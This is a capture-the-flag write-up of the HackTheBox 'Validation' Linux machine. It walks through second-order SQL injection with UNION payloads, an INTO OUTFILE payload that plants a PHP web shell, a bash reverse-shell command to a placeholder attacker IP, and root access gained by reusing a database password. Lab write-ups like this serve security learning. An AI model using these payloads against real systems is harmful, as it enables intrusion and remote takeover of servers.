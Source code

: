 # Validation Easy Linux Machine From HackTheBox Write up
<div align="center">
  <img src=https://github.com/user-attachments/assets/12a11652-02c6-4258-ac3c-c6ef6e81149f>
</div>
</br>
  
## Machine Description
Easy linux machine with Second-order SQL Injection vulnerability and reuse password.

## Vulnerability Found
1. Second-order SQL Injection
2. Permission to write a file using SQL query and save it in a directory
3. Reuse password

## Step to Reproduce

### Enumeration

### Network Enumeration

I used `nmap` to do a network enumaration. From enumerating the network, I found several services that are opened.

<div align="center">
  <img src=https://github.com/user-attachments/assets/7df17b14-1292-4e03-a9c9-6f1c4d73f061>
</div>
</br>

<div align="center">
  Nmap Output
</div>

From the picture above, the services that were opened are **SSH** in **port 22**, **HTTP** in **port 80** and **port 8080**.

### Web Enumeration

From finding out there are HTTP service with port 80, I was directly opened the web. 

<div align="center">
  <img src=https://github.com/user-attachments/assets/513d602a-7774-4b99-b7c1-df5826e27d00>
</div>
</br>

<div align="center">
   Web home page
</div>

When i tried to input a test input to see what how this web works, turns out after I registered, the web directed me to another directory which is `account.php`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/b23fd352-0ffa-4727-915f-7739b1e16d2d>
</div>
</br>

<div align="center">
   Account.php page
</div>

From here, I had an assumption that on the backend, account.php could be using some SQL query to find all the players in that has certain country, which in this case is Brazil.

Next, using Burpsuite, I repeat the registration process but this time I intercepted them first before sending it to the server. I added `'` after the country parameter like this `country=Brazil'`. 

The `'` input made the database returned an error like this:

<div align="center">
  <img src=https://github.com/user-attachments/assets/a52daade-1e36-4797-b046-6d8986605f3e>
</div>
</br>

<div align="center">
  Database error message
</div>

My assumption was right. This web is vulnerable to SQL Injection, which more specifically is Second-order SQL Injection because the thing that we input are used in later/different part.

### Exploitation

To exploit this, first I needed to know how many column does the database return. So, I used UNION SQL Injection to do this. 

Payload

    ' UNION SELECT NULL-- -

<div align="center">
  <img src=https://github.com/user-attachments/assets/e8305a7f-c2ef-4369-a697-51e96c68f71a>
</div>
</br>

<div align="center">
  Union SQL Injection finding the number of column returned
</div>

Next, I added another `NULL` but it returned me an error. So, I knew that the database only return a column. Next, finding out whether that column returned a string or another type of data.

Payload:

    ' UNION SELECT 'a'-- -

With that payload, the database returned an 'a' string which tells me that the column indeed returning a string data type.

This is where I got into confusion because my lack of skill. At first, I thought I needed to find the admin user password and use it for something. Because of this, I found the table name and column name. Turns out, it was something else.

I needed to read the official walkthrough from HackTheBox. This is where I learn something new. I learned that we can write a file using SQL query and the database somehow will write it and save the file in the desired path. 

From the official walkthrough, it directly told that I needed to make a SQL query to write some php file with php command to get cmd command from the url query. I learned another thing that we can see current user (or database I didn't really understand) could have a permission to write a file by finding it out with some SQL query function.

Next, after I found out about that, I followed along on the official walkthrough.

Payload:

    ' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -

That payload will create a php file with the php code in it. Next, I tried to curl the request.

Payload:

    ' curl http://target-machine/your-file-name.php?cmd=id

<div align="center">
  <img src=https://github.com/user-attachments/assets/32533afd-eafc-4496-a49c-5861a9577902>
</div>
</br>

<div align="center">
  id command
</div>

It worked! Next, I tried to input a cmd to do reverse shell and set up a `netcat` listner to get the reverse shell.

Payload:

    ' curl target-machine/your-file-name.php  --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/your-vpn-ip/your-port 0>&1"'

With that payload, I got the reverse shell and found the user.txt


<div align="center">
  <img src=https://github.com/user-attachments/assets/badcbfed-dbff-4746-afb2-2232e39852e2>
</div>
</br>

<div align="center">
  user.txt
</div>

### Privilege Escelation

To do privesc, I searched the folder within the server and found a `config.php` containing a password for database. The file was in `/var/www/html`.

<div align="center">
  <img src=https://github.com/user-attachments/assets/2883f4d6-cc9c-436a-9579-053e4252cd2a>
</div>
</br>

<div align="center">
  password for database in config.php
</div>

I tried to do superuser into root using this password with `su root` command. It worked! Then I moved into `/root` directory and found the root.txt

<div align="center">
  <img src=https://github.com/user-attachments/assets/989625ed-7bc7-4062-852a-892e609217cc>
</div>
</br>

<div align="center">
  root.txt
</div>

Thanks for reading!
